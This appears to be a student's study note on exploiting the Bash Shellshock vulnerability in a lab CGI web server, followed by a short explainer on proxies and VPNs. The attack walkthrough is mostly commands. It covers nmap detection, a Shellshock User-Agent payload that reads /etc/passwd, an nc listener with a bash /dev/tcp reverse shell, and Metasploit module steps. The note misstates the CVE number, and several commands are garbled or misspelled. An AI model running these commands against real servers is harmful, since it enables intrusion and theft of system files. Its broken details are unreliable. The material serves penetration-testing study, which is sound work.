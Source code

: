 # Exploiting Bash CVE-2012-6271 Vulnerability (Shellshock)
#### Overview
`Shellshock`\
Is the name given to a family of vulnerabilities in the **Bash shell**
CGI 

Check if Apatch is running
```bash
nmap <IP>
```
Search IP address on browser and notice CGI command is working in the website in developer tool
Check if it's has vulnerabilities\
[--script=http-shellshock](https://github.com/itr-a/eJTP-Learning/blob/f35580191317792f0cee361f7e7910c405182f4d/Tools/Nmap.md#53)
```bash
# Specify link with 'uri'
nmap -sV <IP> --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"
```
Select BurpSuit on FoxyProxy
`BurpSuit`
Linux tool
Make sure **Intercept is on** in **Proxy** tab
-> Click **Forward**
Inject special characters in HTTP header
Send requests to Repeater
On **Repeater** tab
-Remove user agent information
```bash
# Send this command
User Agent: () {:;}; echo; echo; bin/bash 'c 'cat /etc/passwd'
```

reverseshell
Set up listener port
```bash
# nc -nvlp <'listen port'>
```

```bash
# <'listen port'> -> 'bash -i>&/dev/tcp/<target IP></listening port> 0>&1'
```

Exploit with Metasploit
```bash
service postgresql start && msfonsole
```
```bash
search shellshock
```
-> Use exploit module
```bash
set RHOSTS
set TARGETURI <example: /gettime.cgi>
exploit
```

#### 📓 Note
`FoxyProxy`\
What is **Proxy**?\
A proxy server is like a **middleman between you and the internet**.\
Why use Proxy?
|Purpose|Explanation|
|---|---|
|Hide IP|Site sees the proxy's IP instead
|Bypass restrictions|Access content blocked in the region|
|Filter traffic|seful in companies or schools to block certain sites|
|Debug/Intercept|Tools like Burp Suit use proxy capture your browser traffic|


Example
- Want to visit most sites normally
- BUT want all traffic to a website to go through Burp Suit so can analyze requests
Proxy vs VPN
|Term|What is hides|Encryption|
|---|---|---|
|Proxy|Only browser/app traffic|No encryption(unless HTTPS)|
|VPN|All network traffic|usually encrypted|

Plugin that allows to automatically switch between proxies -> click BurpSuit
-> All traffic will be redirected to the BurpSuit
